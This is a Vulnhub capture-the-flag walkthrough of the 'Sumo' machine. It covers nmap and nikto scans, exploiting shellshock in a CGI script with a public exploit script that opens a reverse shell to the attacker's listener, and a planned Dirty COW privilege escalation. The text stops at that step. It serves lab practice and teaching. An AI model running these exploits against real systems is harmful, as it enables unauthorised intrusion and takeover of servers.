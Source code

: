 # Sumo

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Sumo/Untitled.png)

```bash
IP : 192.168.249.136
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Sumo]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.136
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-20 06:38 EDT
Nmap scan report for 192.168.249.136
Host is up (0.00080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06cb9ea3aff01048c417934a2c45d948 (DSA)
|   2048 b7c5427bbaae9b9b7190e747b4a4de5a (RSA)
|_  256 fa81cd002d52660b70fcb840fadb1830 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
MAC Address: 00:0C:29:E6:D1:ED (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sumo/Untitled%201.png)

After this I directory Traversal this site and got nothing . So I tried nikto and I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Sumo]
└─$ nikto -h http://192.168.249.136/ -o nikto.txt
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.249.136
+ Target Hostname:    192.168.249.136
+ Target Port:        80
+ Start Time:         2023-05-20 06:42:39 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ /: Server may leak inodes via ETags, header found with file /, inode: 1706318, size: 177, mtime: Mon May 11 13:55:10 2020. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /index: Uncommon header 'tcn' found, with contents: list.
+ /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. The following alternatives for 'index' were found: index.html. See: http://www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabilities/8275
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /cgi-bin/test: Uncommon header '93e4r0-cve-2014-6271' found, with contents: true.
+ /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
+ /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /cgi-bin/test/test.cgi: This might be interesting.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8909 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2023-05-20 06:49:27 (GMT-4) (408 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

From web I got tried this and it works fine →

```bash

```

![Untitled](/Vulnhub-Files/img/Sumo/Untitled%202.png)

That confirms the shellshock vulnerability →

Now I need to try shellshock and for that I recon on web and got this →

[https://github.com/b4keSn4ke/CVE-2014-6271](https://github.com/b4keSn4ke/CVE-2014-6271)

Lets try this ⬆️ out →

```bash
python3 [shellshock.py](http://shellshock.py/) 192.168.249.128 4444 [http://192.168.249.136/cgi-bin/test](http://192.168.249.136/cgi-bin/test)
```

In response to the nc I got this →

![Untitled](/Vulnhub-Files/img/Sumo/Untitled%203.png)

Now I have a sumo user and after so much enumeration I think , I have to kernal exploit →

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ uname -an
uname -an
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/usr/lib/cgi-bin$
```

Now I have to use an exploit names as `dirty cow` so lets go →